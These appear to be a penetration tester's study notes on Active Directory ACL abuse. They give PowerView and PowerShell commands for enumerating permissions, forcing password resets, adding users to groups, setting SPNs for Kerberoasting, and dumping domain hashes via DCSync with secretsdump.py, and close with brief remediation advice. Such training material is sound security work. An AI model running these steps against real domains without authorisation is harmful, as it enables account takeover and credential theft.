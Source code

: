 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
![[Active Directory#Access Control List (ACL)]]
![[Active Directory#Access Control Entries (ACEs)]]
![[Active Directory#Discretional ACL (DACL)]]
![[Active Directory#System ACL (SACL)]]

## Key ACEs that can be abused
- [ForceChangePassword](https://bloodhound.specterops.io/resources/edges/force-change-password#forcechangepassword) : Gives us the right to reset a user's password without knowing their original password (*best to tell the client before resetting passwords - they could be used for other purposes too*).
- [GenericWrite](https://bloodhound.specterops.io/resources/edges/generic-write#genericwrite) : This gives us rights to change/write any non-protected attribute on an object. Eg. we could add ourselves to a group, add an SPN to another user so we can [[Kerberoasting|kerberoast]] them.
- [AddSelf](https://bloodhound.specterops.io/resources/edges/add-self#addself) : Shows security groups that a user can add themselves too.
- [GenericAll](https://bloodhound.specterops.io/resources/edges/generic-all#genericall) : Grants full control over a target object. If we have access to a computer that is using [[Windows#Local Administrator Password Solution (LAPS)|LAPS]] then we can get access to the password and obtain local administrator.
![[Pasted image 20250826144004.png]]
## ACL Enumeration
We can enumerate the ACLs of a domain/system to potentially gain further internal access. This can be done with [[Credentialed Enumeration#PowerView|PowerView]] and [[BloodHound]].
### Find all domain objects an SID controls
> this works for anything with an SID eg. users, groups, computers
```PowerShell
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid [user]
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```
> This gets all domain object ACLs, then matches the SecurityIdentifier field to the SID we provided.
> `-ResolveGUIDs` ensures that the ACL types are in a human readable formate rather than their GUIDs

> This command can take a bit of time, especially in large AD environments
#### Performing this without PowerView
> [Get-ADUser](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-aduser?view=windowsserver2022-ps)
> [Get-Acl](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl?view=powershell-7.2)

**Create a list of domain users**
```PowerShell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```

**Get ACL information for each user**
```PowerShell
foreach($line in [System.IO.File]::ReadLines("<domain_users>")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\<target_user>'}}
```

**Manually resolve the ObjectType GUID**
```PowerShell
$guid = "<guid>"
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * | Select Name,DisplayName,DistinguishedName,rightsGuid | ? {$_.rightsGuid -eq $guid} | fl
```

### Identifying nested group
If a group is nested in another group, any users in the sub-group will obtain the rights given by the parent group. This can lead to excessive rights for users.
```PowerShell
Get-DomainGroup -Identity "<group_name>" | select memberof
```

## Useful ACL Abuse Processes
### Creating a PSCredential Object for another user
If we aren't logged in as another user, then we can use PSCredential objects to use them as a context for a PowerShell session
```PowerShell
$SecPassword = ConvertTo-SecureString '[pass]' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('[domain]/[user]', $SecPassword)
```

### Force change another user's password
```PowerShell
# Create a SecureString object that will house the new password
$NewPassword = ConvertTo-SecureString '[new_pass]' -AsPlainText -Force

# Force change the user's password with PowerView
# We use the $Cred variable from above to use another user's context (this is optional if we are already logged in as that user)
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity [user] -AccountPassword $NewPassword -Credential $Cred -Verbose
```

### Add a user to a group
```PowerShell
# You can view all members of a group with this
Get-ADGroup -Identity "[group]" -Properties * | Select -ExpandProperty Members

# Add a user
Add-DomainGroupMember -Identity '[group]' -Members '[user]' -Credential $UserPSCredential -Verbose

# Remove a user
Remove-DomainGroupMember -Identity '[group]' -Members '[user]' -Credential $UserPSCredential -Verbose
```

### Updating a domain object
If we have permission to write to another user eg. `GenericAll`, then we can add a temporary fake SPN to a user, [[Kerberoasting|Kerberoast]] them, and potentially crack their password. This is useful as it means we aren't changing passwords and therefore potentially causing disruption.
```PowerShell
Set-DomainObject -Credential $Cred -Identity [target_user] -SET @{serviceprinciplename='temporary/PENTEST'} -Verbose

# We should also clean up the changed SPN
Set-DomainObject -Credential $Cred -Identity [target_user] -Clear serviceprinciplename -Verbose
```

## DCSync
DCSync is a technique for stealing an AD password database using the built-in *Directory Replication Service Remote Protocol*. This protocol allows DCs to replicate domain data. This attack could allow us to mimic a DC and retrieve user NTLM password hashes.

The core component of this attack is requesting a Domain Controller to replicate passwords via the `DS-Replication-Get-Changes-All` extended right (*a right that allows the replication of secret data*). If we have control of an account with `Replicating Directory Changes` and `Replicating Directory Changes All` permissions, we can perform this attack.

### Check a user for the permissions required
> Using PowerView
```PowerShell
Get-DomainUser -Identity [user] | select samaccountname,objectsid,memberof | fl
```
This will give us the `DC` identifier that we need eg. `DC=INLANEFREIGHT,DC=LOCAL` and it will also give us the user's `SID`.
```PowerShell
$sid = "[user_sid]"
Get-ObjectAcl "[DC_identifier]" -ResolveGUIDs | ? {($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```
This will then show us all the replication permissions for that user. We are looking for `DS-Replication-Get-Changes-All`.

> If we had certain other rights such as: [WriteDacl](https://bloodhound.specterops.io/resources/edges/write-dacl) then we could add this to our users and remove it to hide our tracks later.

### Using secretsdump.py
```bash
secretsdump.py -outputfile hashes -just-dc [domain]/[user]@[dc-ip]
```
> `-just-dc-ntlm` will give us only ntlm hashes, as opposed to also giving kerberos keys too
> ``

## Remediation and Detection
### Regular auditing for dangerous ACLs
- Regularly check for dangerous ACL configurations and remove them
- Train up admin staff to use tools like bloodhound to identify dangerous attack paths

### Monitor group membership
- High-importance groups should be monitored for any changes that could indicate an attack
- Look out for nested groups and identify whether they are needed

### Audit and monitor for ACL changes
- Automate the monitoring and alerting for potentially dangerous changes in ACLs
- Enable [Advanced Security Audit Policy](https://docs.microsoft.com/en-us/archive/blogs/canitpro/step-by-step-enabling-advanced-security-audit-policy-via-ds-access)
